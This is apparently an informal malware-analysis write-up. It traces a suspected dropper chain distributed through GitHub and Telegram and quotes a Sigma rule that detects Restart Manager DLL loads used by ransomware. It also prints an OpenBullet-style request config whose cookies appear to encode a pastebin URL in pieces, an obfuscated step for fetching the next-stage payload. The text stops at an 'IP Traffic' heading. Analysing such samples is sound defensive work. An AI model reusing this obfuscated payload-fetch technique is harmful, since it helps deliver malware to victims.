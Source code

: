 Intrestingly we also see this creating 


We also see that 

```
title: Load Of RstrtMgr.DLL By An Uncommon Process
id: 3669afd2-9891-4534-a626-e5cf03810a61
related:
    - id: b48492dc-c5ef-4572-8dff-32bc241c15c8
      type: derived
status: test
description: |
    Detects the load of RstrtMgr DLL (Restart Manager) by an uncommon process.
    This library has been used during ransomware campaigns to kill processes that would prevent file encryption by locking them (e.g. Conti ransomware, Cactus ransomware). It has also recently been seen used by the BiBi wiper for Windows.
    It could also be used for anti-analysis purposes by shut downing specific 
```


We saw that they were speaking in Russian in the GitHub comments so this could def be some advanced russian ransomware. I look at another file posted on their telegram and again, using the same github repo to download ocean.

```
REQUEST GET "https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LfAM84ZAAAAAGLiQz5FBeADqq94dV48fMtiRqIj&co=aHR0cHM6Ly93d3cuY29pbmJhc2UuY29tOjQ0Mw..&hl=en&v=rPvs0Nyx3sANE-ZHUN-0nM85&size=invisible&cb=no851blwqc0u"
  COOKIE "hrd: /"
  COOKIE "hpr: bin"
  COOKIE "hdp: com"
  COOKIE "htp: raw"
  COOKIE "hht: RST8Xs**"
  COOKIE "hst: pastebin"
  COOKIE "kht: driver"
  COOKIE "kpt: chrome"
  COOKIE "krt: e"
  HEADER "Host: www.googleapis.com"
  HEADER "Accept: */*"
  HEADER "Content-Type: application/json"
  HEADER "X-Client-Version: iOS/FirebaseSDK/6.9.2/FirebaseCore-iOS"
  HEADER "X-Ios-Bundle-Identifier: network.googleapis.com"
  HEADER "Accept-Encoding: gzip, deflate"
  HEADER "User-Agent: FirebaseAuth.iOS/6.9.2 network.googleapis.com/2.7.9 iPhone/12.4.5 hw/iPhone7_2"
  HEADER "Accept-Language: en"
```

What i am suspecting at this point is there is a multi-stage dropper process most likely that goes

Openbullet dropper -> ocean -> fork -> patent. In all of these they do the same registry checks.

When i run patent inside of a VM my fears are confirmed.

There is NO network detection detected by tri.age's vm while VirusTotal found the following below.
#### IP Traffic
